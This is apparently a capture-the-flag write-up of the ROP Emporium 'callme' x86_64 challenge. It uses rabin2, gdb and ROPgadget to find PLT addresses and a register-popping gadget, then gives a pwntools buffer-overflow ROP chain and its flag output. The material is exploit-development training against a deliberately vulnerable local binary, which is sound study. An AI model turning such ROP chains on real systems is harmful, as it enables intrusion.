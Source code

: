 # 3. callme
the third challenge, this challenge wants us to make consecutive function 
calls from `plt`.  

> You must call the callme_one(), callme_two() and callme_three() functions in that order, each with the arguments 0xdeadbeef, 0xcafebabe, 0xd00df00d e.g. callme_one(0xdeadbeef, 0xcafebabe, 0xd00df00d) to print the flag. For the x86_64 binary double up those values, e.g. callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)

so let's begin finding the function address and gadgets we want to use.  

using `rabin2`

```
┌──(kali㉿kali)-[~/ctf/rop/callme]
└─$ rabin2 -i callme
[Imports]
nth vaddr      bind   type   lib name
―――――――――――――――――――――――――――――――――――――
1   0x004006d0 GLOBAL FUNC       puts
2   0x004006e0 GLOBAL FUNC       printf
3   0x004006f0 GLOBAL FUNC       callme_three
4   0x00400700 GLOBAL FUNC       memset
5   0x00400710 GLOBAL FUNC       read
6   0x00000000 GLOBAL FUNC       __libc_start_main
7   0x00400720 GLOBAL FUNC       callme_one
8   0x00000000 WEAK   NOTYPE     __gmon_start__
9   0x00400730 GLOBAL FUNC       setvbuf
10  0x00400740 GLOBAL FUNC       callme_two
11  0x00400750 GLOBAL FUNC       exit
```

now, since we are in `x64` challenge we have to know the calling convention so we can supply the correct arguments.  

we have to set `rdi, rsi, rdx` in order to call a function with 3 parameters. let's find the gadgets for this.
also don't forget to look into the `usefulGadgets` and `usefulFunction` in the binary.  

```
gef➤  disas usefulFunction
Dump of assembler code for function usefulFunction:
   0x00000000004008f2 <+0>:	push   rbp
   0x00000000004008f3 <+1>:	mov    rbp,rsp
   0x00000000004008f6 <+4>:	mov    edx,0x6
   0x00000000004008fb <+9>:	mov    esi,0x5
   0x0000000000400900 <+14>:	mov    edi,0x4
   0x0000000000400905 <+19>:	call   0x4006f0 <callme_three@plt>
   0x000000000040090a <+24>:	mov    edx,0x6
   0x000000000040090f <+29>:	mov    esi,0x5
   0x0000000000400914 <+34>:	mov    edi,0x4
   0x0000000000400919 <+39>:	call   0x400740 <callme_two@plt>
   0x000000000040091e <+44>:	mov    edx,0x6
   0x0000000000400923 <+49>:	mov    esi,0x5
   0x0000000000400928 <+54>:	mov    edi,0x4
   0x000000000040092d <+59>:	call   0x400720 <callme_one@plt>
   0x0000000000400932 <+64>:	mov    edi,0x1
   0x0000000000400937 <+69>:	call   0x400750 <exit@plt>
End of assembler dump.
gef➤  disas usefulGadgets
Dump of assembler code for function usefulGadgets:
   0x000000000040093c <+0>:	pop    rdi
   0x000000000040093d <+1>:	pop    rsi
   0x000000000040093e <+2>:	pop    rdx
   0x000000000040093f <+3>:	ret
End of assembler dump.
```

let's use `ROPgadget` to find the gadgets we needed.  

```
┌──(kali㉿kali)-[~/ctf/rop/callme]
└─$ ROPgadget --binary callme | grep rdi
0x0000000000400a3d : add byte ptr [rax], al ; add byte ptr [rbp + rdi*8 - 1], ch ; call qword ptr [rax + 0x23000000]
0x0000000000400a3f : add byte ptr [rbp + rdi*8 - 1], ch ; call qword ptr [rax + 0x23000000]
0x0000000000400a3c : add byte ptr fs:[rax], al ; add byte ptr [rbp + rdi*8 - 1], ch ; call qword ptr [rax + 0x23000000]
0x000000000040093c : pop rdi ; pop rsi ; pop rdx ; ret
0x00000000004009a3 : pop rdi ; ret
```

thanks to the `usefulGadgets` function.  

now, since we already know what are the parameters needed to be supply let's craft the payload.  

```python
from pwn import *

p = process("./callme")

padding = b"X"*40
call_one = 0x400720
call_two = 0x400740
call_three = 0x4006f0

arg_1 = 0xdeadbeefdeadbeef
arg_2 = 0xcafebabecafebabe
arg_3 = 0xd00df00dd00df00d

pop_rdi_rsi_rdx = 0x40093c

set_reg = p64(pop_rdi_rsi_rdx) + p64(arg_1) + p64(arg_2)  + p64(arg_3)
payload = padding + set_reg + p64(call_one) + set_reg + p64(call_two) + set_reg + p64(call_three)

p.sendline(payload)
print(p.recvall().decode("utf-8"))
```

let's run it. 

```
┌──(kali㉿kali)-[~/ctf/rop/callme]
└─$ python solve.py
[+] Starting local process './callme': pid 1230
[*] Switching to interactive mode
callme by ROP Emporium
[*] Process './callme' stopped with exit code 0 (pid 1230)
x86_64

Hope you read the instructions...

> Thank you!
callme_one() called correctly
callme_two() called correctly
ROPE{a_placeholder_32byte_flag!}
```

nice.
